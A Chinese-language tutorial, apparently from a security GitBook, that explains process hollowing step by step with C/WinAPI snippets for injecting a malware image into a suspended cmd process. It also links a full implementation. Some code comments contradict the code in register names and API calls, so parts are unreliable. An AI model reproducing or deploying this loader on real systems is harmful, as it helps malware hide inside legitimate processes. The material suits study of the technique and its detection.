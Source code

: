 ```yaml
---
description: 进程镂空
---
```


# Process Hollowing

## Process Hollowing简介

进程镂空是一种防御规避的进程注入技术,主要思想是卸载合法进程的内存，写入恶意软件的代码，伪装成合法进程进行恶意活动。

![](../.gitbook/assets/process-hollowing.gif)

## 执行流程

1. 创建一个挂起的合法进程
2. 读取恶意软件的代码
3. 获取挂起进程上下文与环境信息
4. 卸载挂起进程内存
5. 写入恶意软件代码
6. 恢复挂起进程

## 代码实现

### 1.创建一个挂起的合法进程

```text
	BOOL bRet = CreateProcessA(
		NULL,
		(LPSTR)"cmd",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&si,
		&pi);
```

### 2.读取恶意软件的代码

```text
	hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
	FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); 
	ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
	CloseHandle(hFile);
```

### 3.获取挂起进程上下文与环境信息

 **进程环境块**（**PEB**）是 Windows NT操作系统内部使用的数据结构，用以存储每个进程的运行时数据，每个进程又有一个独立且由操作系统进行维护的PEB。

挂起创建的进程的EBX&RDX寄存器存储着PEB,而PEB内存储着进程的实际加载地址。

```text

	GetThreadContext(pi.hThread, &ctx); //获取挂起进程上下文

#ifdef _WIN64
	ReadVirtualMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
	// 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
	// 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
	ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL); 
#endif
```

### 4.卸载挂起进程内存

如果恶意软件预期加载地址被占用，就使用ntdll内的NtUnmapViewOfSection函数卸载软件内存,该函数也是freelibrary等函数真正卸载内存使用的函数。

```text
	//判断文件预期加载地址是否被占用
	pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
	if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase) 
	{
		NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
	}
```

### 5.写入恶意软件代码

将恶意软件写入合法进程的空间,先写入文件头后逐段写入。

```text

	//为可执行映像分配内存,并写入文件头
	RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); 
	WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL); 

	//逐段写入
	for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
	{
		pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL); 
	}

```

### 6.恢复挂起进程

挂起创建的进程rcx&eax内存储着软件的入口点,需要将PEB内的实际加载地址修改为恶意软件预期的加载地址。

```text
//将rax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _WIN64
	ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); 
	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif

	//将eax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _X86_
	ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); // Set the eax register to the entry point of the injected FileImage

	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif


	SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
	ResumeThread(pi.hThread); // 恢复挂起线程

```

#### \* 实现效果

![](../.gitbook/assets/image%20%2854%29.png)

## 完整代码

* github:[https://github.com/idiotc4t/ProcessHollow.git](https://github.com/idiotc4t/ProcessHollow.git)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://attack.mitre.org/techniques/T1093/" %}



